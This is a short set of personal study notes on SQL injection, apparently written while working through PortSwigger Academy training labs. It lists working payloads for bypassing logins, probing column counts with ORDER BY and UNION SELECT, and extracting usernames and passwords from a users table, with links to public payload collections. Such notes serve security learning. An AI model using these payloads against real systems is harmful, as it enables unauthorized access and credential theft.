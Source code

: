 # burpSuite
aka Notes from PortSwigger Academy

## SQLi

- ```--``` comments out everything after
- ```+``` URL encoding for simple space 
- ```%20``` Same as above ... URL encoding for simple space 
- ```%27``` means this bad boy ```'```

Payloads that just worked somewhere:
```
'--
admin'--
administrator'-- 
' OR 1=1 -- 
OR 1=1 -- 
```
So how many collumns do we have? 
```
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 

' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 

' UNION SELECT NULL-- 
' UNION SELECT NULL, NULL-- 
' UNION SELECT NULL, NULL, NULL-- 

' UNION SELECT NULL FROM DUAL-- 
' UNION SELECT NULL, NULL FROM DUAL-- 
' UNION SELECT NULL, NULL, NULL FROM DUAL-- 


' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 

' UNION SELECT username, password FROM users-- 
```
- The payloads described use the double-dash comment sequence ```--``` to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character ```#``` can be used to identify a comment. 

- [payloads](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads)
- [payloads2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
